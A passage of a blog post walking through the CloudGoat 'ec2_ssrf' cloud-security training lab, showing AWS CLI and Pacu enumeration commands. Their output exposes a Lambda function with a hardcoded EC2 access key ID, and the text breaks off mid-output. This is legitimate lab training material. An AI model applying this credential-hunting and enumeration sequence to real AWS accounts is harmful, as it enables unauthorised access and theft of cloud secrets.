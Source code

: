 ```yaml
---
layout: post
title: CloudGoat ec2_ssrf
date:   2019-09-26 12:00:00
categories: howto
permalink: "/howto/cloudgoat/ec2-ssrf"
---
```


## Introduction
For this post we're going to work through the fourth CloudGoat chllenge: ec2_ssrf 

This challenge can be found [here](https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/ec2_ssrf).

According to the documentation the goal for this challenge is:

```
Starting as the IAM user Solus, the attacker discovers they have ReadOnly permissions to a Lambda function, where 
hardcoded secrets lead them to an EC2 instance running a web application that is vulnerable to server-side request 
forgery (SSRF). After exploiting the vulnerable app and acquiring keys from the EC2 metadata service, the attacker 
gains access to a private S3 bucket with a set of keys that allow them to invoke the Lambda function and complete 
the scenario. 
```

 

## Lets Begin
First we’ll validate the credentials
```
aws sts get-caller-identity
```
Create looks like we’re the solus user.

Running lambda__enum shows a function that we have access to
```
run lambda__enum --regions us-east-1
```
When we view the captured enumerated data with pacu
```
data
```
We see the following information:
```
Lambda: {
    "Functions": [
        {
            "FunctionName": "cg-lambda-cgid0aj9eyqxxk",
            "FunctionArn": "arn:aws:lambda:us-east-1:944882903810:function:cg-lambda-cgid0aj9eyqxxk",
            "Runtime": "python3.6",
            "Role": "arn:aws:iam::944882903810:role/cg-lambda-role-cgid0aj9eyqxxk-service-role",
            "Handler": "lambda.handler",
            "CodeSize": 223,
            "Timeout": 3,
            "MemorySize": 128,
            "LastModified": "2019-09-26T13:38:41.131+0000",
            "CodeSha256": "xt7bNZt3fzxtjSRjnuCKLV/dOnRCTVKM3D1u/BeK8zA=",
            "Version": "$LATEST",
            "Environment": {
                "Variables": {
                    "EC2_ACCESS_KEY_ID": "AKIA5X73I5MBAVBBMG5B",
```